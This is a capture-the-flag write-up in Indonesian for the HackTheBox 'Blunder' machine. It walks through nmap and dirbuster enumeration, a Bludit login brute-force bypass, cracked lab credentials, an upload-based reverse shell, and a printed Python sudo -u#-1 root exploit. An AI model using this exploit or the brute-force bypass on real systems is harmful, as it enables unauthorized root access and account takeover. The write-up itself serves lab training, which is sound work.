




# Blunder (Linux)


HackTheBox Blunder Linux, ini adalah box yang menarik karena penulis dan teman teman sempat melakukan balapan untuk mencoba menjadi yang tercepat dalam solving box nya. Penulis berhasil menyelesaikan pertama diantara 4 teman-teman dalam waktu 4,5 jam #notsobad

Dari tampilan awalnya sepertinya box ini akan berat di CVE dan real-life

### Enumeration

Mari kita mulai enumeration menggunakan nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-28 07:12 EDT
Nmap scan report for 10.10.10.191
Host is up (0.031s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
Device type: firewall
Running (JUST GUESSING): Fortinet embedded (87%)
OS CPE: cpe:/h:fortinet:fortigate_100d
Aggressive OS guesses: Fortinet FortiGate 100D firewall (87%)
No exact OS matches for host (test conditions non-ideal).

TRACEROUTE (using port 21/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.84 seconds
```

Kita bisa melihat bahwa port yang terbuka hanya HTTP, yang berarti web servicenya. Mari kita kunjungi, sambil kita jalankan dirbuster

Tampilan webnya tidak menyediakan banyak


Namun dari dirbuster kita tahu bahwa ada directory admin yang ternyata sebuah login panel, dan todo.txt yang berisi potential username 'fergus'



### User

Penulis kemudian mencoba untuk melakukan bruteforce login panelnya menggunakan python script, namun ternyata Bludit memiliki fitur anti bruteforcing dengan menyimpan IP attempted login pada file log. Namun juga ada bypass nya dikarenakan IP yang disimpan disertakan dalam header request, sehingga merubah headernya setiap 10 request bisa mem-bypass fitur anti bruteforcenya.

[https://github.com/rastating/rastating.github.io/blob/master/_posts/2019-10-05-bludit-brute-force-mitigation-bypass.md](https://github.com/rastating/rastating.github.io/blob/master/_posts/2019-10-05-bludit-brute-force-mitigation-bypass.md)

Setelah melakukan bruteforcing yang lama ternyata rockyou tidak dapat dengan mudah mengeluarkan hasil bruteforce yang diinginkan, maka penulis memutuskan untuk membuat wordlist sendiri menggunakan tools yang bernama cewl.

[https://tools.kali.org/password-attacks/cewl](https://tools.kali.org/password-attacks/cewl)

```
cewl -d 2 -m5 http://10.10.10.191 > wordlist.txt
```

Command diatas akan membuat wordlist dengan crawling dan scraping, kata yang memiliki huruf minimal 5 panjangnya akan dimasukkan kedalam wordlist.

Menggunakan script bypass IP restriction Bludit dibawah ini penulis berhasil mendapatkan password combination yang benar untuk user fergus



Ditemukan password yang digunakan untuk login

fergus:RolandDeschain

Karena kita sudah bisa login ke admin panel sebagai fergus, kita bisa melakukan file upload dan mendapatkan reverse shell. Penulis menggunakan msfconsole untuk membuka session.

### Root

Setelah melakukan enumerasi penulis melihat ada user kedua yang bernama hugo, dan setelah lebih banyak enumerasi lagi penulis berhasil menemukan hashed password login sebagai hugo di folder Bludit 3.10.x 



Dikarenakan password di hash, maka penulis akan melakukan cracking menggunakan john the ripper

hugo:Password120

Melakukan sudo -l dengan user hugo penulis menemukan



Menggunakan exploit sudo untuk spawn /bin/bash as root 

https://www.exploit-db.com/exploits/47502

```
#!/usr/bin/python3
import os

#Get current username
username = input("Enter current username :")

#check which binary the user can run with sudo
os.system("sudo -l > priv")
os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")

binary_file = open("binary")

binary= binary_file.read()

#execute sudo exploit
print("Lets hope it works")

os.system("sudo -u#-1 "+ binary)
```

Run exploitnya dengan python dan kita mendapatkan root

# Rooted !
